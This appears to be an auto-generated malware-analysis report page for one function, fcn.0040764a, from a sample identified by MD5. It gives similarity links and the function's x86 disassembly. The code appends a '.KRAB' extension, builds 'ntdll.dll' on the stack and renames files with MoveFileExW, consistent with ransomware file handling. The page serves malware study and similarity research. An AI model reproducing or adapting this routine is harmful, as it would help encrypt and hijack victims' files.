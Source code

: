 ```yaml
---
layout: post
title:  "fcn.0040764a @ 470263fe7e7cc115b95cd041d643e3b5"
date:   2021-08-30 15:52:19 +0300
categories: report
---
```


# Generic Information
- **Function:** fcn.0040764a
- **Origin (md5):** 470263fe7e7cc115b95cd041d643e3b5
- **VirusTotal:** [virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5][virustotal_ref]



# Similar Functions

1. [fcn.00457d24][similar_1_ref] (sim.: 0.9283717492558332)
2. [fcn.00408cff][similar_2_ref] (sim.: 0.9274536058198412)
3. [fcn.00408ec1][similar_3_ref] (sim.: 0.9242965548330405)
4. [fcn.00405242][similar_4_ref] (sim.: 0.9224661068241594)
5. [fcn.00437a93][similar_5_ref] (sim.: 0.9196368290265285)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
sub esp,0x38
mov eax,dword[0x423304]
push ebx
push esi
xor ebx,ebx
mov dword[ebp-8],edx
mov esi,ecx
push edi
mov edi,ebx
test eax,eax
je 0x407673
push eax
call dword[sym.imp.KERNEL32.dll_lstrlenW]
lea edi,[eax*2+2]
push esi
call dword[sym.imp.KERNEL32.dll_lstrlenW]
add eax,edi
lea ecx,[eax*2+0x18]
call fcn.00408cd4
mov edi,eax
test edi,edi
je 0x4077ad
mov eax,dword[0x423304]
test eax,eax
jne 0x4076ad
push esi
push str._s.KRAB
push edi
call dword[sym.imp.USER32.dll_wsprintfW]
add esp,0xc
jmp 0x4076be
push eax
push esi
push str._s_s
push edi
call dword[sym.imp.USER32.dll_wsprintfW]
add esp,0x10
mov ecx,esi
call fcn.004074e1
test eax,eax
jne 0x4077a4
mov ecx,esi
call fcn.004071ba
test eax,eax
jne 0x4077a1
mov eax,dword[ebp-8]
cmp dword[eax+0x20],2
jb 0x4077a1
mov ecx,esi
call fcn.00407410
xor ecx,ecx
xor edx,edx
inc ecx
test eax,eax
cmovne ecx,edx
mov dword[ebp-4],ecx
cmp dword[0x423310],edx
jne 0x407775
push 0x6e
pop eax
push 0x74
mov word[ebp-0x38],ax
pop eax
push 0x64
pop ecx
push 0x6c
pop edx
mov word[ebp-0x36],ax
push 0x2e
pop eax
mov word[ebp-0x2e],ax
xor eax,eax
mov dword[ebp-0x26],eax
lea eax,[ebp-0x38]
push eax
mov word[ebp-0x34],cx
mov word[ebp-0x32],dx
mov word[ebp-0x30],dx
mov word[ebp-0x2c],cx
mov word[ebp-0x2a],dx
mov word[ebp-0x28],dx
call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]
test eax,eax
je 0x407772
movdqa xmm0,xmmword[0x41a890]
lea ecx,[ebp-0x20]
push ecx
push eax
movdqu xmmword[ebp-0x20],xmm0
mov dword[ebp-0x10],0x656c6946
mov byte[ebp-0xc],bl
call dword[sym.imp.KERNEL32.dll_GetProcAddress]
mov dword[0x423310],eax
mov ecx,dword[ebp-4]
mov edx,dword[ebp+8]
lea eax,[ebp-4]
push eax
push dword[ebp-8]
mov dword[ebp-4],ebx
push ecx
push ecx
mov ecx,esi
call fcn.00401261
add esp,0x10
test eax,eax
je 0x4077a1
cmp dword[ebp-4],ebx
je 0x4077a1
push 1
push edi
push esi
call dword[sym.imp.KERNEL32.dll_MoveFileExW]
xor ebx,ebx
inc ebx
mov ecx,edi
call fcn.00408ce5
mov eax,ebx
pop edi
pop esi
pop ebx
mov esp,ebp
pop ebp
ret 
{% endhighlight %}


[similar_1_ref]: /report/fcn.00457d24@d96761eb00d2d97e2b6f5ffffed0b46a
[similar_2_ref]: /report/fcn.00408cff@470263fe7e7cc115b95cd041d643e3b5
[similar_3_ref]: /report/fcn.00408ec1@470263fe7e7cc115b95cd041d643e3b5
[similar_4_ref]: /report/fcn.00405242@73677cb40830e94fbfb5483ff33e40b9
[similar_5_ref]: /report/fcn.00437a93@418e0921f3a9bd4f5bc0dcc59623b5a1
[virustotal_ref]: https://www.virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5
